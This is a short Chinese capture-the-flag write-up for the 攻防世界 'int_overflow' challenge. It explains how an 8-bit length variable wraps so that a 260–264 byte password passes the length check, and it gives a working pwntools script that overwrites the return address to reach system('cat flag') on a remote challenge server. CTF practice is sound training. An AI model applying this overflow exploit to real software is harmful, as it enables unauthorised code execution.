 # 攻防世界 int_overflow

## 分析：

int overflow 整型溢出，就是整数在超出数值范围时会将超出范围的部分省去，保留剩下的部分

这一题中，保存字符串长度的变量v3是8位无符号整数变量，最大值为255，而可以输入的长度为0x199，远大于255，而检查字符串长度时是检查v3的值在4-8之间，同时在程序中有``system("cat flag")``函数，因此只需要保证字符串长度在260-264之间，并将返回地址覆盖为``system("cat flag")``的地址即可

## exp:

```python
from pwn import *

#n = process('./int_overflow')
n = remote('111.198.29.45',59540)

elf = ELF('./int_overflow')

n.recvuntil('choice:')
n.sendline('1')
n.recvuntil('username:\n')
n.sendline('1')
n.recvuntil('passwd:\n')
payload = 'a' * 0x18 + p32(0x0804868B)
payload += 'a' * (260 - len(payload))
n.sendline(payload)
print(n.recvall())
```

